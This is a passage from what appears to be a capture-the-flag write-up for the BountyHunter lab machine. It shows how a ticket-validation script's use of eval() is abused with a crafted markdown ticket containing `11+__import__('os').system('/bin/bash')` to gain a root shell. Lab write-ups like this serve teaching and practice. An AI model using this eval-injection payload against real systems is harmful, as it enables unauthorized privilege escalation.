 ```py
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
```
4. Third line of the file must start with `__Ticket Code:__`
```py
        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue
```
5. Fourth line must start with `**`
```py
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
```
6. `**` must be followed by a number that gives remainder of 4 when divided by 7 (number `11`) and `+` sign.
```py
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False
```
7. Everything in fourth line after `**` gets into eval function. In our case, it will be `11+__import__('os').system('/bin/bash')`


I ended up with this:
```md
# Skytrain Inc
## Ticket to 
__Ticket Code:___
**11+__import__('os').system('/bin/bash')
```

I saved it and ran the script.

![](/uploads/{{ page.permalink }}/ss12.png "Rooted")

Rooted! 🔥

# Conclusion

BountyHunter was the first active machine I owned. I really enjoyed this box because it's beginner friendly, I was already familiar with xxe injection, and getting the root was mostly a fun puzzle.

It was a great box for applying some things I learned at [PortSwigger Web Security Academy](https://portswigger.net/web-security){:target="_blank"} which I also recommend.


[explainshell]: https://explainshell.com/explain?cmd=nmap+-sC+-sV+-oA+bountyhounter+10.10.11.100
[nmap]: https://nmap.org/
[burp]: https://portswigger.net/burp/communitydownload
[dirb]: https://www.kali.org/tools/dirb/
[xxe]: https://portswigger.net/web-security/xxe
[xxe-payloads]: https://github.com/payloadbox/xxe-injection-payload-list
[cyberchef]: https://gchq.github.io/CyberChef